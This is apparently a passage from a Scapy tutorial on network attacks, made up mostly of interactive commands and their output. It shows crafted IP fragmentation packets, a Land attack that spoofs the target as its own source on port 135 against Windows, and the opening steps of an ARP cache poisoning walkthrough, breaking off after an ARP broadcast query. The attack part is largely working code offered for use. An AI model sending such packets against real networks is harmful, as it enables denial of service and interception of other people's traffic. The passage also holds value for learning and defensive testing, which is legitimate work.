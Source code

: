```
>>> send(IP(dst="192.168.43.1", id=42, flags="MF")/UDP()/("X"*10))                                                                                                    
.
Sent 1 packets.
>>> send(IP(dst="192.168.43.1", id=42, frag=48)/("X"*116))                                                                                                            
.
Sent 1 packets.
>>> send(IP(dst="192.168.43.1", id=42, flags="MF")/UDP()/("X"*224))                                                                                                   
.
Sent 1 packets.
>>>
```
<b><i>Land attack (designed for Microsoft Windows):</i></b>

```
>>> send(IP(src="10.0.0.5",dst="192.168.43.246")/TCP(sport=135,dport=135))                  
.
Sent 1 packets.
>>>
```

<b><i>[ARP cache poisoning](https://medium.com/datadriveninvestor/arp-cache-poisoning-using-scapy-d6711ecbe112)</i></b>

This attack prevents a client from joining the gateway by poisoning its ARP cache through a VLAN hopping attack.





Step 1: Finding out the MAC address of the target and the Gateway

To find the MAC address of the target and the gateway, we will send a broadcast message for both of them.

So we design the ARP broadcast request for IP address= 192.168.43.1(gateway)

> Note: In ARP layer, hwsrc and hwdst represent MAC address of source and destination respectively, while psrc and pdst represent the IP address of source and destination respectively.


```
>>> arpbroadcast=Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.43.1")
>>> arpbroadcast.show()                                                                                                                                               
###[ Ethernet ]### 
  dst= ff:ff:ff:ff:ff:ff
  src= 08:00:27:23:ff:90
  type= ARP
###[ ARP ]### 
     hwtype= 0x1
     ptype= IPv4
     hwlen= None
     plen= None
     op= who-has
     hwsrc= 08:00:27:23:ff:90
     psrc= 192.168.43.225
     hwdst= 00:00:00:00:00:00
     pdst= 192.168.43.1
>>>
```
```
>>> received=srp(arpbroadcast, timeout=2)                                                                                                                             
Begin emission:
Finished sending 1 packets.
*
```